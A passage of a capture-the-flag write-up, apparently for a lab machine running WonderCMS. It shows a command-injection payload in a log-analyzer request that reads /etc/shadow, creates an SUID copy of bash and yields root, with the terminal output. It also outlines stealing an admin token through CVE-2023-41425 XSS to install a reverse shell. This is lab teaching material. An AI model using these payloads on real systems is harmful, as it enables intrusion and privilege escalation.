 ```bash
```

The data being sent is the strict log location. The other parameter of analyze_log is set only to denote the function to take place, the other buttons do the same with different parameters. I give /etc/shadow a read and to my surprise it finds some of the file "suspicious".

![suspicious /etc/shadow]({{ page.img }}_burp_etc_shadow.png)

Clearly from this point I can determine there is a cat-like command and then some filtering, perhaps I can remove the filtering in addition to adding my own commands. 

```bash
log_file=/etc/shadow%26%26touch+/tmp/test+&analyze_log=


amay@sea:~$ ls /tmp
snap-private-tmp
systemd-private-1354103252f245d7a9810109ccd84cc5-apache2.service-v9RGOi
systemd-private-1354103252f245d7a9810109ccd84cc5-ModemManager.service-rdmpMi
systemd-private-1354103252f245d7a9810109ccd84cc5-systemd-logind.service-B3LHkg
systemd-private-1354103252f245d7a9810109ccd84cc5-systemd-resolved.service-A0bGGi
systemd-private-1354103252f245d7a9810109ccd84cc5-systemd-timesyncd.service-irBWOi
systemd-private-1354103252f245d7a9810109ccd84cc5-upower.service-yzuBNi
test
vmware-root_787-4290625459
```

Looks like we are a go for the command injection. Simplest way to get root here is copy /bin/bash then make it an SUID. 

```bash
log_file=/etc/shadow%26%26cp+/bin/bash+/tmp/bash+%26%26+chmod+u%2bs+/tmp/bash+&analyze_log=


amay@sea:~$ ls -l /tmp/bash
-rwsr-xr-x 1 root root 1183448 Aug 13 03:54 /tmp/bash
amay@sea:~$ /tmp/bash -p
bash-5.0# cat /root/root.txt
9f33dbc73dc06c------------------
```


# Revisiting WonderCMS

## Uploading a revshell

I did some testing to figure out what would have worked if I didn't find the /revshell-main/rev.php revshell. In short you need to grab the token (not stored as a cookie) to use the installModule function to install a new theme. This token needs to be used shortly after grabbing it as the admin seemingly relogs on every cycle. To grab this token you use the XSS defined from CVE-2023-41425 and the contact portal to get the admin to download a hosted .js file with the token grabbing and module installing payload.
